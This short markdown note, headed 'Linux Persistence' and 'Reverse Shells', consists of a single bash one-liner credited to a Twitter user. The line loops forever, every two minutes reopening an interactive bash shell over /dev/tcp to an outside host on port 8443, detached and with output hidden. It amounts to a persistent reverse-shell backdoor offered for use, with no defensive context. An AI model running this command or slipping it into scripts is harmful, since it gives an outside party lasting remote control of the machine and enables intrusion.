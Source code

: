 # Linux Persistence

### Reverse Shells
```while :; do setsid bash -i &>/dev/tcp/1.1.1.1/8443 0>&1; sleep 120; done &>/dev/null &```  (Credit to @Alh4zr3d on Twitter)

